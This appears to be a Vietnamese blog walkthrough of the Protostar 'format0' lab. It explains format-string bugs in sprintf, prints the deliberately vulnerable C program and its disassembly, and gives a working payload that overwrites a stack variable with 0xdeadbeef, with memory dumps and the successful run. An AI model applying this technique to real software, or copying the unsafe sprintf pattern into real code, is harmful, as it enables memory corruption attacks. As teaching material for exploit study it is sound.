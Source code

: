 ```yaml
---
layout: post
title: format0
---
```


Trong bài này, chúng ta sẽ tìm hiểu một cách exploit mới dựa vào formatted string (chuỗi được định dạng). Formatted string được dùng khá nhiều trong C/C++ với các hàm như `printf` and `sprintf`. Các hàm này là kiểu hàm có số lượng tham số không cố định (variable arguments, hay varargs) và có thể thay đổi giá trị trên bộ nhớ, do đó, nếu không được dùng đúng cú pháp sẽ khiến bộ nhớ bị thay đổi trái với mong đợi và dẫn tới nhiều hậu quả.

Sau đây là source code và asm code của chương trình format0.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```
```asm
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
0x0804842b <main+0>:    push   ebp
0x0804842c <main+1>:    mov    ebp,esp
0x0804842e <main+3>:    and    esp,0xfffffff0
0x08048431 <main+6>:    sub    esp,0x10
0x08048434 <main+9>:    mov    eax,DWORD PTR [ebp+0xc]
0x08048437 <main+12>:   add    eax,0x4
0x0804843a <main+15>:   mov    eax,DWORD PTR [eax]
0x0804843c <main+17>:   mov    DWORD PTR [esp],eax
0x0804843f <main+20>:   call   0x80483f4 <vuln>
0x08048444 <main+25>:   leave
0x08048445 <main+26>:   ret
```

Hàm đầu tiên được xem xét trong bài này là `sprintf`. Hàm này có tham số đầu tiên là một biến (pointer), tiếp theo là một formatted string, theo sau đó là các tham số để thay vào formatted string. `sprintf` hoạt động bằng cách phân tích formatted string đưa vào, sau đó sinh ra một chuỗi mới sẽ được lưu vào biến tham số.

Tương tự như trong các bài về exploit stack trước đây.
1. Biến `target` được lưu trên stack với địa chỉ `ebp-0xc`. Biến này có 4 byte.
2. Biến `buffer` được lưu trên stack với địa chỉ `ebp-0x4c`. Biến này có 64 byte.
2 biến này lắm kề này trên stack. Do đó, về cơ bản, chúng ta sẽ cần một formatted string có thể sinh ra 68 byte, trong đó 4 byte cuối sẽ chứa giá trị mong muốn của `target`. Để exploit format0, formatted string sẽ như sau.

```bash
python -c "print '%064d\xef\xbe\xad\xde'"
```

Chuỗi sinh ra từ formatted string này sẽ gồm 64 ký tự như mong muốn (bản chất là dang số nguyên với các số 0 phía trước) và 4 byte cuối là 4 byte cần cho `target`.
Sau đây là bộ nhớ bắt đầu từ `esp`. Phân biệt theo màu <span style="color:springgreen">tham số sẽ dùng cho hàm `sprintf`</span>, <span style="color:aqua">buffer</span> và <span style="color:orangered">target</span>.

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x00000001</span>
0xbffff720:     <span style="color:aqua">0x00000000</span>      <span style="color:aqua">0x00000001</span>      <span style="color:aqua">0xb7fff8f8</span>      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x080482ec</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049624</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:orangered">0x00000000</span>
0xbffff760:     0xb7fd8304      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

<pre class="memory">
0xbffff700:     <span style="color:springgreen">0xbffff71c</span>      <span style="color:springgreen">0xbffff978</span>      <span style="color:springgreen">0x080481e8</span>      0xbffff798
0xbffff710:     0xb7fffa54      0x00000000      0xb7fe1b28      <span style="color:aqua">0x30303030</span>
0xbffff720:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff730:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff740:     <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>      <span style="color:aqua">0x30303030</span>
0xbffff750:     <span style="color:aqua">0x31303030</span>      <span style="color:aqua">0x31353433</span>      <span style="color:aqua">0x38323133</span>      <span style="color:orangered">0xdeadbeef</span>
0xbffff760:     0xb7fd8300      0xb7fd7ff4      0xbffff788      0x08048444
</pre>

Chúng ta đã sử dụng đến 3 tham số cho hàm `sprintf`. Tham số đầu tiên lưu tại `esp` là địa chỉ của biến `buffer`, tham số thứ 2 là địa chỉ của formatted string, và tham số thứ 3 là số dạng int sẽ được thay thế vào formatted string. Kiểm tra memory cho thấy sự trùng khớp giữa số int dạng byte là `0x080481e8` và số in ra dạng decimal có 0 phía trước sẽ là `0000000000000000000000000000000000000000000000000000000134513128`.

## Ref
```bash
user@protostar:~$ format0 $(python -c "print '%064d\xef\xbe\xad\xde'")
you have hit the target correctly :)
```
